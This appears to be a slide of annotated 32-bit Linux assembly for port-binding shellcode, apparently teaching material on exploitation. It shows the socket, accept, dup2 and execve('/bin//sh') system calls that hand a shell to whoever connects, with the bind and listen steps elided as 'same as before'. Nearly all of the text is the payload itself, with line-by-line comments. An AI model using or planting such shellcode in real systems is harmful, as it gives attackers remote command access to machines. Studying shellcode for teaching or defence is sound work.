

# shell-spawning port binding shellcode
BITS 32

; s = socket(2, 1, 0)
  push BYTE 0x66    ; socketcall is syscall #102 (0x66)
  pop eax
  cdq               ; zero out edx for use as a null DWORD later
  xor ebx, ebx      ; ebx is the type of socketcall
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,

.... same as before   .......

; c = accept(s, 0, 0)
  mov BYTE al, 0x66 ; socketcall (syscall #102)
  inc ebx           ; ebx = 5 = SYS_ACCEPT = accept()
  push edx          ; argv: { socklen = 0,
  push edx          ;         sockaddr ptr = NULL,
  push esi          ;         socket fd }
  mov ecx, esp      ; ecx = argument array
  int 0x80          ; eax = connected socket FD

; dup2(connected socket, {all three standard I/O file descriptors})
  mov ebx, eax      ; move socket FD in ebx
  push BYTE 0x3F    ; dup2  syscall #63
  pop eax
  xor ecx, ecx      ; ecx = 0 = standard input
  int 0x80          ; dup(c, 0)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 1 = standard output
  int 0x80          ; dup(c, 1)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 2 = standard error
  int 0x80          ; dup(c, 2)

; execve(const char *filename, char *const argv [], char *const envp[])
  mov BYTE al, 11   ; execve  syscall #11
  push edx          ; push some nulls for string termination
  push 0x68732f2f   ; push "//sh" to the stack
  push 0x6e69622f   ; push "/bin" to the stack
  mov ebx, esp      ; put the address of "/bin//sh" into ebx, via esp
  push edx          ; push 32-bit null terminator to stack
  mov edx, esp      ; this is an empty array for envp
  push ebx          ; push string addr to stack above null terminator
  mov ecx, esp      ; this is the argv array with string ptr
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])